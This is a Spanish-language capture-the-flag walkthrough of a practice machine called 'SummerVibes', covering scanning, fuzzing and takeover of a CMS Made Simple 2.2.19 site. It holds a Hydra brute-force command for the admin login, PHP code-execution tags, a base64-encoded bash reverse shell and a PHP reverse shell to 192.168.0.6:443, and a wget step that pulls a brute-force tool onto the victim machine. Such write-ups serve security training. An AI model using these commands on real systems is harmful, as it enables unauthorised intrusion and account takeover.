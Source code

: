 # SummerVibes

Tags: [[_cms]],[[_webFuzzing]],[[_bruteForce]],[[_permissionAbuse]]

Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.
Le hacemos un ping a la máquina.
Posible máquina Linux.

Empezamos el escaneo con NMAP.

Puertos abiertos:
22 - Superior a la 7.7
80 - Página por defecto de Apache.

Posible codename: Ubuntu Jammy.

Veamos la web en busca de Information Leakege.
Empecemos a fuzzear directorios.

No vemos nada interesante.
Podría hacer un escaneo para puertos filtrados, o de otros protocolos.

En el código fuente de la página de apache por defecto, está la imagen de apache, podemos pensar en que se está aplicando esteganografía.

Dicha imagen se encuentra en la ruta icons, podríamos fuzzear ahí.

Hasta abajo en el código fuente hay un comentario, dice que tengo que usar "cmsms" para entrar al CMS.
Y sí, me lleva a una página.
Versión de jQuery desactualizada.

Se ve que es un CMS MADE SIMPLE.
Es un gestor de contenidos. Versión 2.2.19
Buscando en Internet, parece que es vulnerable a un SSTI.

Parece que debo estar como admin. El cual existe, porque posteó una noticia.

Para ir encontrando información, debería hacer fuzzing pero sobre el nuevo directorio.
COSITAS.

Direcory Listing en un directorio. Como tal, no tienen nada.

Como tal, el único interesante es el de admin, para loguearme, el cual ya había visto de antes.

Así que hay que entrar como admin sí o sí.
Por fuerza bruta.

---
De momento no ha funcionado.

Con hydra.
Especificando todos los parámteros.
<span style="color:#88c425">hydra -l admin -P rockyou.txt 172.17.0.2 http-post-form '/cmsms/admin/login.php:username=^USER^&password=^PASS^&Login=Login:User name or password incorrect'
</span>
^PASS^ :    donde se va a sustituir la contraseña.
^USER^ :    donde es el que especificamos.
Nota. Hay que interceptar con BurpSuite para ver cómo viaja la información.

---

Lo mejor es hacerlo en python, hay que hacerlo.

https://cosasdedevs.com/posts/usar-requests-python-api-rest/

La contraseña es "chocolate", del usuario "admin".

En un principio, habiendo ganado acceso, me dirigí a:
Extensions > User Defined Tags
Agregué un nuevo Tag, metí esto en el code:
< ?php echo system('id'); ?>
Me lo interpretó y vi el Output.

Ganemos acceso a la máquina.
No tiene curl, así que hagámoslo de forma tradicional.

< ?php echo system('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNi80NDMgMD4mMQo=" | base64 -d | bash'); ?>

Ocupé este Payload, donde el base64 es una reverse sehll con bash.

Otro base64:
php -r '\$sock=fsockopen(\\"192.168.│
0.6\\",443);exec(\\"/bin/bash -i <&3 >&3 2>&3\\");'

Se pone en base64, y se usa como el de arriba, este es de php. (Se escapan solo las comillas y el "$" dólar).


ESCALADA DE PRIVILEGIOS.
Toca ponerse a investigar.
Efectivamente, es un Ubuntu Jammy.
crontab -l :    para ver si lo tiene instalado, he ir pensando si pueden haber tareas cron.

Emmm, puse su
puse "chocolate" como contraseña, y soy root.


Con este explopit se puede hacer fuerza bruta para saber la contraseña de un usuario.
https://github.com/Maalfer/Sudo_BruteForce

Lo descargamos en la máquina víctima con wget 
Y descargamos el rockyou.txt, desde la máquina atacante:
Desde donde está el rockyou.txt
<span style="color:#88c425">python3 -m http.server 80</span>

Y en la máquina víctima:
<span style="color:#88c425">wget 192.168.0.6/rockyou.txt</span>

Para poder hacer en la máquina víctima:
<span style="color:#88c425">bash Linux-Su-Force.sh root rockyou.txt</span>

FINALIZADA.

